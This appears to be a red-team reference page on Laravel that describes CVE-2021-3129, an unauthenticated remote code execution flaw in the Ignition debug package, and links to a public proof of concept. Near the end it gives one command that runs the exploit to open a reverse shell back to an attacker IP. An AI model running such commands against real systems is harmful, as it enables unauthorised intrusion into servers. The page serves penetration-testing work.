 ```yaml
---
layout:
  width: default
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
  metadata:
    visible: true
---
```


# Laravel

Laravel is a popular open-source PHP web framework designed to streamline the development of modern web applications. Built around the Model-View-Controller (MVC) architecture, it emphasizes clean syntax, modular code structure, and ease of use. Laravel comes bundled with tools for routing, database interaction, session handling, and authentication. **It also includes a CLI tool called** [**Artisan**](https://laravel.com/docs/12.x/artisan), which automates repetitive development tasks. Due to its widespread adoption and consistent structure, Laravel is frequently encountered during Red Team assessments, especially in environments using PHP for API backends, content platforms, or custom admin panels.

## Unauthenticated RCE

Laravel applications (<`v8.4.2`) that use the **Ignition debugging package** (< `v2.5.2`) in development or misconfigured environments are vulnerable to an unauthenticated RCE flaw ([CVE-2021-3129](https://nvd.nist.gov/vuln/detail/cve-2021-3129)). The issue arises when Ignition is exposed to unauthenticated users, allowing specially crafted requests to exploit how Ignition processes error reporting and variable previews. By manipulating the `XDEBUG_SESSION` or specific POST payloads, an attacker can inject arbitrary PHP code that gets executed on the server. This vulnerability is typically exploitable in cases where debug mode is enabled (`APP_DEBUG=true`) and Ignition is accessible over the web. A working [PoC](https://github.com/JacobEbben/CVE-2021-3129) is available.

```bash
# Reverse shell
python3 exploit.py -i 192.168.45.170 -p 80 http://laravel-instance
```
